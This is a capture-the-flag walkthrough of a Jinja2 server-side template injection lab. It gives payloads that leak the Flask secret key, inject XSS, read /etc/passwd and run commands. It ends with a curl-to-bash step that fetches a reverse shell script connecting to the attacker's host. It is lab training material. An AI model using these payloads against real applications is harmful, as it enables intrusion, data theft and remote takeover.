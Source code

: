 ```yaml
---
date: 2025-02-12
categories: [CTF, ImmersiveLabs]
title: "IML - Halloween 2020: Ep.5 – JinjaBread Man (SSTI)"
tags: ['privilege escalation', 'python', 'rce', 'xss']

description: "Halloween 2020 Ep.5 – JinjaBread - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Halloween 2020: Ep.5 – JinjaBread Man (SSTI)

This lab is exploiting a Server Side Template Injection (SSTI) vulnerability in Jinja

- Port 80 is open and we have a /admin directory:

![image1](../resources/466353f0bd5a4357ae428959e10f695c.png)

- The actual page seems static apart from the search box:

![image2](../resources/b2bd35e1ca654339aebb2a1b9eca994e.png)

![image3](../resources/e07ac994b43c4f12ae8c87a4796ad570.png)

- Since this is a SSTI box - we can assume the search box is vulnerable

- Great blog for SSTI on Jinja2:  
[https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

- We enter

{% raw %}
    {{4*4}}[[5*5]] 
{% endraw %}

and it gets executed (only what's in the `{{ }}` field):

![image4](../resources/3d753f2b10484a048c7a37457164f611.png)

- By injecting 

{% raw %}
```text
{{config.items()}}
```
{% endraw %}

we can get the secret_key

![image5](../resources/bfcc79eacdef409ba6854d6458adfed1.png)

- We can also get XSS by using the safe command:

![image6](../resources/d34a7e1f00624d038d2c249eb62d42c1.png)

{% raw %}
```text
{{'<script>alert(1);</script>'|safe}}
```
{% endraw %}

![image7](../resources/b094f0aca0544fdd934b04bee5cf6f41.png)

**<u>The actual SSTI:</u>**

- First we need to find the index of **_io._IOBase** (the index changes by environment):

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()}}
```
{% endraw %}

![image8](../resources/2fac61fc3fc542c5b30d5de410ece449.png)

- Now we can call it to test - by appending the index **[92]**:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92]}}
```
{% endraw %}

![image9](../resources/c4c0bbd1f35e4621bbd464b77841c108.png)

- We then call the **_io._RawIOBase** class by adding .__subclasses__()[0]:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0]}}
```
{% endraw %}

![image10](../resources/838a41a738a047d9b5911da4d1c67001.png)

- We then call the **_io.FileIO** class by adding another .__subclasses__()[0]:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]}}
```
{% endraw %}

![image11](../resources/d7680c65ee17404882ba6a257d01c45f.png)

- Finally, we can use this class to construct a file object and read our file:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}
```
{% endraw %}

![image12](../resources/4ed233e49a8d41ebaad6ef45702a3393.png)

**<u>SSTI RCE:</u>**

- The above link shows the RCE but this is a good article as well:  
<https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/>

This RCE happens because **Flask/Jinja2 templates** have the **request object available to them**

- By using the following payload, we are basically doing **import os and os.popen('id')**:

{% raw %}
```text
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
{% endraw %}

![image13](../resources/5d766dd35b294d16a27f9afb8ceeb5e8.png)

- Create a bash script (rev.sh):

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.102.4.249/4444 0>&1"
```

- Set up a simple python server in the same directory

- Set up a nc listener

- Run the following in the search box:

{% raw %}
```text
{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.102.4.249:8000/rev.sh | bash').read()}}
```
{% endraw %}

- And we have a shell back:

![image14](../resources/17b9c43fb44944b5bf31cc3d7792b56a.png)

![image15](../resources/e3b3b45085c9487f97b30aa2ead57dfe.png)
